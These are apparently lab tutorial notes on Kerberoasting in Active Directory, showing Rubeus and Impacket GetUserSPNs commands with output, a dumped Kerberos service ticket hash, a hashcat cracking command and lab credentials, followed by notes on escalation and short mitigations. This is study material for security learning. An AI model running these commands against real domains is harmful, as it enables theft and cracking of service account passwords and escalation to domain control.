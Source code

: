 # Kerberoasting w/ Rubeus & Impacket
- Kerberoasting allows a user to request a service ticket for any service with a registered SPN
- Use that ticket to crack the service password
- If service has a registered SPN then it can be Kerberoastable

Enumerate Kerberoastable; use BloodHound to find all Kerberoastable accounts

## Kerberoasting w/ Rubeus
- Dump Kerberos hash of any Kerberoastable users

<pre>controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe kerberoast

   ______        _                       
  (_____ \      | |                      
   _____) )_   _| |__  _____ _   _  ___  
  |  __  /| | | |  _ \| ___ | | | |/___) 
  | |  \ \| |_| | |_) ) ____| |_| |___ | 
  |_|   |_|____/|____/|_____)____/(___/  
                                         
  v1.5.0                                 


[*] Action: Kerberoasting 

[*] NOTICE: AES hashes will be returned for AES-enabled accounts. 
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts. 

[*] Searching the current domain for Kerberoastable users 

[*] Total kerberoastable users : 1


[*] SamAccountName         : SQLService 
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local  
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111 
[*] PwdLastSet             : 5/25/2020 10:28:26 PM                          
[*] Supported ETypes       : RC4_HMAC_DEFAULT                               
[*] Hash                   : $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.loca 
                             l:30111*$74ED9A6944729B855529A7E1CEBE28F5$7F4D43C26FB1F736B347B99043E3085EFE032B 
                             C53A5D2EE0DFF7776C30D2C1E75C5993B6957D0FC1C114C187CF13403B25419009730AD0A2019706 
                             D37C654C7AE9E78CD173AA7AD67D7133D87D6000BE6D54F5D8585814436F8BFCA77220C6504E462D 
                             4EBFA0B30798E06FAA09A877B6D0864017D8E9468735C8FEC84A243DA071BBB9A6AE37FD2D243891 
                             47BC9F0B98355E4ED0544DA0FF00337C3C916899DD4101A060A35E7D95E6E896AD3ECD4CA8131FDA 
                             CAC6173333CCACE91A46D1B2098CDC99E4EE46BF29D3602BE1C210E198CCFB7B5818F277B8DD4854 
                             4CFCC738A6938FBAB633CF1B9AC74243A1DB7E25266E0622011D6C28F2E500C0204F9293E172508E 
                             56603B06B81C4726F2C4FA73724C3BD69ABC68A3AA59E7F6689FD32A8B73507FDDD4B5FA86F9E056 
                             42057AA8CE739094837A018E3EF63926B5101173A52F480C8AA50E810A38DFDE82E032E1E5977FBD 
                             E59EA0C63FD2001E1A48BA9F6E9125719A342FF798A0C715CCD513DAB1A27CD16DE3281D7A05A712
                             BE6D34F34068B4E918535CBA0963CFA303345B40EEF6CAE41E3B8A810DC8AB1C33973FA2176D9B8B
                             FB6F60A3457C17D4ABC4956C32EF19C4C17387DE9881B892F22605F1D259330C5D4C52120C98A491
                             9CE2C4BAB9FAD6D579544A326517AF4C538C2873AECF796562E4C30C8AC3AEB8D6D6A9634026C9F3
                             46B1797A3A5181B291C494BE0A0EC126DF65F26F891E4033781B9E2D0D29FF710AFC880D4814B8D1
                             50A4B91BEAADC21BE807269DF387CC578735F97D40D85F480E4BA2B35BBDEC3834EB12D1900BCE31
                             1EC9CFCF4440932E010B64B885C59D6ACAFED3ED4958A51CE50D419A11884E55D398480761AD6547
                             E7BB965C93F7A4418804634D8457A7FA500297866DA86ACBB2D615EC86955A3CCF75FDEA912D73B8
                             EF07B2EBF4D85105C880C1A7AF0D83D965F5C10162C67C3E260F9C6C7A71F29B83C3DDF668C5155E
                             3D649098B33C9DAC89302C24EFCF8EBF875E277541CDCE9FA29A954CE021A161ED5FDB09DB18F0A9
                             7B0918E74B1A9A9D4D7879DE7A458A5636E9507296D60538A426E61F63E61EC95BC49E2C1886A0AC
                             7C8A02DEDF49C87763DBE16B6CD293DDE6EE2A4763A45C88B334D4AB47CDA4956D35C84A6BA5FBAB
                             2FF1C6A9DAA65C650A5C8AD155691DC54552C3729C81B37237F9BB377ED12F97245436E95F8B7136
                             6F1CEA935C405819A99E11D4DB170768FA8CAE4B93C5A13677CF40DE862568CF6E17A435A48920D5
                             987303F4576D6FDBCF1CD3C3B4B83BC81F2C2B1AF149E7EFC970AE6C17CFE2120EF94A7CE3883BB8
                             5D25853243E2789291146D557E123219915AF0265151239CC6E258A5DE719AC44F56F61C02B2536F
                             C6A3D58A17D8AEDB557E1FB17E0A710E8991BA5ADE342A782D3D7514F8BE10162F6F6474A1FD0031
                             0E7F9F9EE735F8F61095D215EFA2F0A58FD2DA0B7A86A1221C8F9FA2AAA113562EB5152A9BFFF322
                             431755E6579A401D5615B9F6FFFB67B982B7FC9CEF33BE7E758573D5C67740BD179CF90F43E7C8E2
                             1AC25F8523AF3228DC89F815FFA3549B388198A040971A77148ABBE5BA98B5DDB87E726AE5F609E3
                             063224F29EE60C58B7A0498FEF9E91E4AC84559FB632B8B535F1EADD71</pre>

## Hashcat
Use hashcat to crack Kerberos 5 hash
<pre>hashcat -m13100 -a 0 hash.txt passwords.txt</pre>

## Impacket
1) Navigate to preferred directory to save tools in
2) Download precomplied package: https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19
3) <pre>cd impacket-0.9.19 </pre>
4) <pre>pip install </pre>

## Kerberoasting w/ Impacket
1) Navigate to where GetUsersSPNs.py is located

<pre>cd /usr/share/doc/python3-impacket/examples </pre>

2) Dump Kerberos hash for all Kerberoastable accounts it can find on domain

<pre>sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.183.143 -request </pre>

4) Crack the hash

<pre>hashcat -m 13100 -a 0 hash.txt passwords.txt</pre>

## What can a Service Account do?
- Service Account = Domain Admin = Golden/Silver ticket + dump NTDS.dit
- Service Account is not Domain Admin = log on to other systems + escalate privileges

## Kerberoasting Mitigation
- Strong password policy
- Do not make Service Accounts Domain Admin